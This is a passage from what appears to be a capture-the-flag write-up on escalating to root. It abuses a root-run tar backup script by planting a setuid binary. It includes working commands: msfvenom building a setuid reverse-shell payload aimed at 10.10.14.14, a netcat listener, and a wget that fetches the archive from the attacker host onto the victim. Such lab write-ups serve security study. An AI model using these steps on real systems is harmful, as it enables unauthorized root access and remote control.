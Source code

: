 ```sh
# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check

# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &

# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

The script runs `tar` as root, which seems like a vulnerability. I'm guessing there is a race condition where the backup `tar` command (compressing the web directory) can stall longer than 30 seconds while we swap out the tempfile for our own tar archive containing a malicious copy of `/etc/passwd` and the check directory for a symlink to `/etc`. But no, the check directory is owned by root, so we can't replace it. Also, it's created right before the tar is extracted into it.

Looking closer, if files differ, the contents are written by diff into the `errormsg` file. So we could use that to read any file in the file system, but not get a shell. If files differ, then the check directory is not deleted, so any files we put in our archive (copied over tmpfile) will be left there until the next run. So putting a suid binary (created on kali) there should give us a vector to root!

```sh
# on kali, make a suid binary reverse shell:
❯ msfvenom -f elf -o rsh.elf -p linux/x86/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 PrependSetuid=true
❯ sudo chown root:root rsh.elf
❯ sudo chmod +s rsh.elf
❯ sudo chmod +x rsh.elf

# package it up in correct folder structure for integrity_chk to find it
❯ mkdir -p var/www/html/
❯ sudo mv rsh.elf var/www/html/
❯ tar -zcvf derp.tar.gz var

# start a netcat listener for shell
sudo nc -lvnp 443

# on victim, download file as onuma user
wget -P /var/tmp 10.10.14.14/derp.tar.gz
```
